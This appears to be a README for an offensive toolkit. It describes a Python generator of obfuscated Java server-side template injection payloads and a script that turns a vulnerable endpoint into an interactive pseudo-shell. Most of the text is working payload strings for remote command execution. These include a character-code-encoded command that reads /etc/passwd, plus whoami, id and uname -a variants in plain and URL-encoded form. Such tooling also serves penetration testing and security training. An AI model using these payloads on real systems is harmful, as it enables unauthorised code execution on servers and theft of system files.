 SSTI Payload Generator
======================
This generator is for a specific type of Java SSTI, inspired by the following [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java):

```${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}```

The string is converted into a decimal value and then concatenated together. This python script will automate that process within a interactive Cmd prompt.

#### Example 1:

```
> python3 ssti-payload.py
Command ==> whoami
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

Command ==> uname -a
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

#### Example 2 (url encoded):
```
> python3 ssti-payload.py -u
Command ==> whoami
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28119%29.concat%28T%28java.lang.Character%29.toString%28104%29%29.concat%28T%28java.lang.Character%29.toString%28111%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28105%29%29%29.getInputStream%28%29%29%7D

Command ==> id
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28105%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D

Command ==> uname -a
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28117%29.concat%28T%28java.lang.Character%29.toString%28110%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2845%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29%29.getInputStream%28%29%29%7D
```


#### Example 3 (prefix changed):
```
> python3 ssti-payload.py -c '*'
Command ==> whoami
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

Command ==> uname -a
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}

SSTI Skeleton
=============

`ssti-skel.py` uses the `Cmd` library to create a looped command prompt. This directly takes input from the command line, encodes it appropriately, and sends it via `requests` to the target url (`-t`). 

If successful, the script will be a `pseudo-shell`, allowing for commands to be sent in real time. If at anytime a request fails, the script will quit.

This is a very specific usecase. But if it works, it works.

Example command:

```python3 ssti-skel.py -t 'https://example.com/path?param='```

Depending on the response, the `ssti=str(output).split('&#39;')[1].rstrip()` variable will probably have to be changed to suit the response. No clever logic was implemented for this :)


